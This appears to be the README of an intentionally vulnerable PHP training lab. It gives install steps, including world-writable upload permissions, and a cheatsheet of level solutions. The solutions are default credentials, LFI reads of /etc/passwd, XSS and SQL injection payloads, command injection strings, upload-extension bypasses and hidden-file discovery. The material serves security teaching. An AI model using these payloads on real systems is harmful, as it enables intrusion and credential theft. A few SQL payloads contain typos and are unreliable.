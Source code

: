 # Installation
Basic LAMP...

```
sudo apt install apache2 php libapache2-mod-php mysql-server php-mysql
```
move folder to /var/www/html

script.sql for database

```
sudo mkdir /var/www/html/upload/
sudo chmod -R 777 /var/www/html/upload => right in folder
```


# Cheatsheet
<details>
<summary> Click for detail</summary>

## Broken authentication
Level 1
admin:password

- weak password
- default password
- GET parameters


Level 2

alice:123456789

- error message


## Broken Access Control
?sessionid=120983


## LFI

?topic=../../../../../../etc/passwd
?topic=php://filter/convert.base64-encode/resource=secret.php

## XSS
Level 1
<script>alert('XSS')</script>

Level 2
<script>alert('XSS')</script>

Modifier le contenu du premier message : 
<script>document.getElementsByTagName("p").item(1).innerHTML="Modifié par un hacker"</script>

Level 3 
Uniquement pseudo

Level 4
<img src="x" onerror="alert('XSS')"/>


## SQLi
Level 1
' or 1=1; -- 
a

admin' and 1=1; -- 
Level 2
uniquement password 
' or 1=1; --


Level 3
' union select null; -- 
' union select 'a','b','c','d'; -- 
' UNION select null, table_name,null,null from information_schema.tables; -- 
' UNION select null, column_name,null,null from information_schema.comluns where table_name='sql1'; -- 
' union select null,username,password,null from table='sql1'; --


## Command injection
Level 1
google.fr; ls


Level 2
google.fr" && ls #

## PHP file upload
try to upload .php3, .php4, .php5, .phtml...

5 secrets : 


1 - fuzzing 
secret.php

robots.txt => /96bd94aa09f61018abeaf0cd7b7c6387.php

code source => 33a2838ab91f7f01a24da38cb55cae10.php

?topic=php://filter/convert.base64-encode/resource=secret.php

Extract .git 
git restore .

</details>